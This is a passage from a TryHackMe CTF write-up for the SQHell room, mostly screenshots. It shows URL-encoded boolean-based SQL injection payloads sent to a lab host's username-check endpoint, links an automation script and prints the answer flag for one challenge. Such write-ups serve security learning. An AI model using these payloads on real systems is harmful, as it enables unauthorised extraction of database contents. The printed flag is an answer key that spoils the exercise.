 <br>

![image](https://github.com/user-attachments/assets/977d0e81-624c-49e4-ae77-a491970cf32c)

<br>

<br>

![image](https://github.com/user-attachments/assets/9b704042-34e5-4d4f-9fbd-99fa8359bd85)

<br><br>


![image](https://github.com/user-attachments/assets/ebd7f661-43d4-43a0-a75b-bcc1cc4cd60a)


<br>

<p>- For <code>admin</code> the Response is <code>false</code> = <code>this username is not available</code>.<br><br>
- For <code>admi</code> the Response is <code>true</code> = <code>this username IS available</code>.<br><br></p>

<br>

![image](https://github.com/user-attachments/assets/eccbbf66-a9dc-42d0-a386-99ca3e50b0e5)

<br>

![image](https://github.com/user-attachments/assets/1d3c71a8-5e09-4f27-a3ad-6da477d13c80)

<br>

<p>Tried <code>http://10.10.24.237/register/user-check?username=admin%27%20AND%20(substr((SELECT%20flag%20FROM%20flag%20LIMIT%200,1),1,1))=%27T%27--%20-</code>.<br><br>
- The response was <code>false</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/05f4ea60-a732-4346-8bd4-1d1210215002)

<p>Tried <code>http://10.10.24.237/register/user-check?username=admin%27%20AND%20(substr((SELECT%20flag%20FROM%20flag%20LIMIT%200,1),1,1))=%27T%27--%20-</code>.<br><br>
- The response was <code>false</code>.</p>

<p>Tried <code>http://10.10.24.237/register/user-check?username=admin%27%20AND%20(substr((SELECT%20flag%20FROM%20flag%20LIMIT%200,1),1,1))=%27a%27--%20-</code>.<br><br>
- The response was <code>true</code>.</p>

<p>Used the script below to automate boolean-based SQL inject and to discover the third flag.<br>
Script: https://github.com/RosanaFSS/Cybersecurity-Journey-TryHackMe/blob/CTFs-%26-Infos/Medium%20%F0%9F%9A%A9%20-%20SQHell-%20Script%20-%20Boolean-Based%20SQL%20Injection.py</p>


![image](https://github.com/user-attachments/assets/9aa107fb-8baa-465b-ba23-5798326e773f)


> 1.4. <em>Flag 4</em>Hint : <em>Well, dreams, they feel real while we're in them right?</em><a id='1.4'></a>
>> <code><strong>THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}</strong></code><br>

